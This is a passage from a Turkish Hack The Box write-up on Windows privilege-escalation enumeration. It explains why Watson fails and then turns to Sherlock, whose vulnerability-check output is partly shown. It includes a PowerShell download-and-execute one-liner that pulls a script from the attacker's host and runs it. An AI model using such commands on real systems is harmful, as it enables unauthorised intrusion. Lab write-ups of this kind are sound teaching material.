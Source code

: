 Bir sürü servis potansiyel olarak ilginç olarak belirtildi, ancak bunların hiçbirinden gerçekten bir sonuç çıkmadı.

### Enumeration - Watson/Sherlock

WinPEAS çıktısında dikkatimi çeken bir şey, [Watson](https://github.com/rasta-mouse/Watson) sonuçlarının olmamasıydı. Watson, bu Windows sunucusunun savunmasız olabileceği CVE'leri hızlıca kontrol eden bir araçtır ve HTB'nin ilk zamanlarında bu yaygın bir yükseltme tekniğiydi (hatta bu sunucuda da amaçlanan yol budur). Watson'ın çalışmamasının en olası nedeni, winPEAS'taki Watson'ın gerektirdiği .NET sürümünün 4.5 olması, ancak bu sunucuda yalnızca 4.0 sürümünün bulunmasıdır:

```
PS C:\windows\microsoft.net\framework> ls


    Directory: C:\windows\microsoft.net\framework


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----         22/8/2013   6:39 ??            v1.0.3705
d----         22/8/2013   6:39 ??            v1.1.4322
d----         22/8/2013   6:39 ??            v2.0.50727
d----         20/3/2021   8:06 ??            v4.0.30319
...[snip]...
```

Eğer Watson'ı çalıştırmak istiyorsam, onu indirip kutudaki .NET sürümlerinden birine uyacak şekilde derleyerek çalıştırmayı deneyebilirim, ancak hızlı bir şekilde çalıştırmayı başaramadım. Bunun yerine, bu sunucu çok eski olduğu için, Watson'ın öncülü olan Sherlock'a yöneldim. Hem [Sherlock](https://github.com/rasta-mouse/Sherlock) hem de Watson'ı yaklaşık 2,5 yıl önce [Bounty](https://0xdf.gitlab.io/2018/10/27/htb-bounty.html#enumeration) yazısında göstermiştim.

Sherlock bir PowerShell scriptidir. Bir kopyasını indireceğim ve bir sürü fonksiyon tanımladığını ancak hiçbirini çağırmadığını göreceğim. Sonuna `Find-AllVulns` fonksiyonunu çağırmak için bir satır ekleyeceğim. Ardından, bir kopyasını barındırmak için bir Python HTTP sunucusu kullanacağım ve bir shell elde ettiğim yöntemle çalıştıracağım:

```
PS C:\> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Sherlock.ps1')
                                                    
Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015              
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092                       
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable
                                                    
Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053                     
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems
                                                    
Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081                   
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems
                                                    
Title      : TrackPopupMenu Win32k Null Pointer Dereference
```